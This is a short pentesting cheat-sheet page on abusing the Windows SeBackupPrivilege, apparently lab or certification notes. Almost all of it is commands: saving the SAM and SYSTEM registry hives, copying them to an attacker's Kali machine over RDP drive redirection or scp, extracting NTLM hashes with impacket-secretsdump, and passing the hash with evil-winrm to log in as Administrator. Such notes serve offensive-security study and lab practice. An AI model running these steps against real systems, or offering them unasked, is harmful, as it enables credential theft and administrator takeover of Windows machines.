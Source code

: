 # SeBackupPrivilege

Check privileges:

```powershell
whoami /priv
```

* SeBackupPrivilege must be present

[NLTM](../nltm.md)

#### Exploitation:

1. Create a temp directory:

```powershell
mkdir C:\temp
```

2. Copy the sam and system hive of HKLM to C:\temp and then download them.

```powershell
reg save hklm\sam C:\temp\sam.hive
```

and

```powershell
reg save hklm\system C:\temp\system.hive
```

3. Transfer files to kali machine

**Enable drive direction on RDP session:**

{% code overflow="wrap" %}
```sh
xfreerdp /v:192.168.224.220 /u:dave /p:lab +clipboard /cert:ignore /drive:KaliShare,/home/kali/share
```
{% endcode %}

**If SSH is available:**

```shell
sudo systemctl start ssh
#on kali
```

```powershell
scp C:\temp\sam.hive kali@192.168.X.X:/home/kali/
```

4. Obtain ntlm hashes:

{% code overflow="wrap" %}
```sh
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```
{% endcode %}

5. Use evil-winrm to pass the hash and connect as Local Administrator:

```sh
evil-winrm -i <ip> -u "Administrator" -H "<hash>"
```
